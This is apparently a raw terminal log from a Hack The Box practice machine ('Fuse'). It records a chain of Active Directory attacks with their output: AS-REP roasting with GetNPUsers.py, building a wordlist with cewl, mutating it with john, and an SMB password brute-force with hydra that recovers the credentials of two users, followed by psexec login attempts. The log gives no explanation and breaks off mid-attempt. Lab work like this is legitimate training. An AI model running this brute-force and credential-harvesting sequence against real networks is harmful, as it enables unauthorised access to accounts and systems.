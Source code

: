 
rpcclient -U "sthompson" 10.10.10.193
Enter WORKGROUP\sthompson's password: 
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE




GetNPUsers.py HTB.local/ -request -format hashcat -outputfile npusers.hash -dc-ip 10.10.10.161


kali@kali:~/htb/boxes/fuse/10.10.10.193$ GetNPUsers.py fabricorp.local/ -usersfile users.txt 
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] User pmerton doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tlavel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sthompson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bhult doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set



cewl -w password.txt -d 10 -m 1 http://fuse.fabricorp.local/papercut/logs/html/index.htm

john --wordlist=passwords.txt --rules --stdout > mutated.txt



kali@kali:~/htb/boxes/fuse/10.10.10.193$ hydra -L users.txt -P mutated.txt smb://10.10.10.193 -t 32
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-28 12:13:39
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 745 login tries (l:5/p:149), ~745 tries per task
[DATA] attacking smb://10.10.10.193:445/
[STATUS] 198.00 tries/min, 198 tries in 00:01h, 547 to do in 00:03h, 1 active
[445][smb] Host: 10.10.10.193 Account: tlavel Valid password, password expired and must be changed on next logon
[445][smb] host: 10.10.10.193   login: tlavel   password: Fabricorp01
[445][smb] Host: 10.10.10.193 Account: bhult Valid password, password expired and must be changed on next logon
[445][smb] host: 10.10.10.193   login: bhult   password: Fabricorp01
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-28 12:16:33


kali@kali:~/htb/boxes/fuse/10.10.10.193$ psexec.py tlavel@10.10.10.193
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[-] SMB SessionError: STATUS_PASSWORD_MUST_CHANGE(The user password must be changed before logging on the first time.)
kali@kali:~/htb/boxes/fuse/10.10.10.193$ psexec.py bhult@10.10.10.193
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

